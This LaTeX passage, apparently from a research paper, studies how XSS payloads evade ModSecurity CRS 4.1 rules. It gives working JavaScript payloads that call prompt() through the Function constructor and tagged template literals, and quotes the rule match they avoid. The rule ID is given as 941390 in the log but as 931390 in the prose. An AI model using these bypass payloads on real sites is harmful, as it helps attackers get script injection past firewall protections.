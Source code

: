 On using a string substitution strategy like mentioned in \ref{sec:stringreplace}, a payload in the form of

\begin{lstlisting}[style=basicStyle, caption=avoiding {} bypass payload using square bracket notation, label={lst:stringreplacepass}]
[][`constructor`][`constructor`]('pro' + 'mpt`seeValueInInput$' + [open + []][0][16] + '2+2' + [open + []][0][36] + ':`')();
\end{lstlisting}

successfully evaded the firewall.

Similarly, using the dot-syntax instead of bracket-access, the following payload bypasses the firewall:

\begin{lstlisting}[style=basicStyle, caption=avoiding {} bypass payload using dot notation, label={lst:stringreplacepass}]
[].constructor.constructor('pro' + 'mpt`seeValueInInput$' + [open + []][0][16] + '2+2' + [open + []][0][36] + ':`')();
\end{lstlisting}

\subsubsection{Forcing unicode normalization}
\label{sec:forcedunicodenorm}
As stated before, a payload containing the \verb|prompt()| function:

\begin{lstlisting}[style=basicStyle, escapeinside=\^\^, language=Python]
prompt('',secret)
\end{lstlisting}

is being blocked by the ModSecurity firewall using CRS4.1 according to the rule:

\begin{lstlisting}[style=ruleStyle, language=XML]
<payload>prompt("", secret)</payload>

<message>"Javascript method detected"</message>
<file>"/rules/REQUEST-941-APPLICATION-ATTACK-XSS.conf"</file>
<fileDetails>[line "714"] [id "941390"]<fileDetails>
<MatchedData>"prompt("</MatchedData>
\end{lstlisting}

in order to avoid the CRS rule with id \verb|931390|, that matches on the character sequence \verb|prompt(|, tagged template literals have been used to obscure the payload:

\begin{lstlisting}[style=basicStyle, escapeinside=\^\^, language=Python]
prompt`${secret}`
\end{lstlisting}

